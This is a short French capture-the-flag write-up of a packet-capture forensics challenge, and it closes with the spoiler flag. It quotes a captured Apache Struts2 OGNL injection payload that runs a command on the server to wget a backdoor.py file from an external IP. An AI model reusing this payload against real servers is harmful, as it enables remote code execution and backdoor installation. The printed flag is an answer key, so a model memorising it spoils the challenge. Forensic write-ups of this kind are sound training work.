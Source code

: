 
![bibliotheque_4](../../../../attachements/bibliotheque_4.png)

## Résolution

Dans le paquet 3165 : 
`Qlabel=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().getWriter().write((new freemarker.template.utility.Execute()).exec({"wget https://182.121.42.87/backdoor.py"}))`

Il télécharge un fichier `backdoor.py` depuis l’ip `182.121.42.87`.

Il ne reste plus qu’à identifier le pays à partir de l’IP.

>[!question]- Spoiler du flag
> OPENNC{backdoor.py_Chine}

